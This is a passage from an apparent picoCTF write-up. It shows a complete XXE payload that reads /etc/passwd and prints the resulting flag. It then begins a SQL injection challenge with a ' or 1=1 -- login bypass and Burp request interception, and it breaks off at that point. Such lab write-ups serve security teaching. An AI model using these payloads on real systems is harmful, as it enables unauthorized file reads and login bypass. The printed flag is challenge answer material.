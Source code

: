 Checking the instance given shows this
![image](https://user-images.githubusercontent.com/113513376/226237140-5a742f55-8db8-4c9a-b6f5-ce2da90ddb4e.png)

Clicking on `details` and intercepting the request shows that the data which it's trying to fetch is gotten using the xml format style
![image](https://user-images.githubusercontent.com/113513376/226237292-b3a77ab3-141d-4db9-981a-06d19ee8233a.png)

So since its this we can perform XXE

After checking [HackTricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity) I made the payload to read the `/etc/passwd` file

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ELEMENT data ANY>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>
    <ID>&file;</ID>
</data>
```

On submitting that I got the flag
![image](https://user-images.githubusercontent.com/113513376/226237740-3c7b556f-6b87-4510-a74b-b9333ccf3f34.png)

```
Flag: picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}
```

#### More SQLi
![image](https://user-images.githubusercontent.com/113513376/226237913-bbe98b86-9897-4bd8-a3c3-fa43a3db0be8.png)

Checking the web server instance given shows this login page
![image](https://user-images.githubusercontent.com/113513376/226238001-5e21f53e-4277-4a8f-86bf-bc73b8255f81.png)

From the challenge title which is `SQLi` i'll try using sql injection to bypass the login page

```
Username: ' or 1=1 --
Password: ' or 1=1 --
```

Trying that works
![image](https://user-images.githubusercontent.com/113513376/226238142-1ea000a6-f98e-4bd8-9863-bc945b62d6c7.png)

There's another search functionality in the web app

So i'll search for something then intercept the request with burp
![image](https://user-images.githubusercontent.com/113513376/226238278-3ee33cdc-d8b1-4942-8455-60537cf3470a.png)

Then i will save the request in a file 
![image](https://user-images.githubusercontent.com/113513376/226238696-f125d72f-054f-47df-be34-90bcb75505e6.png)
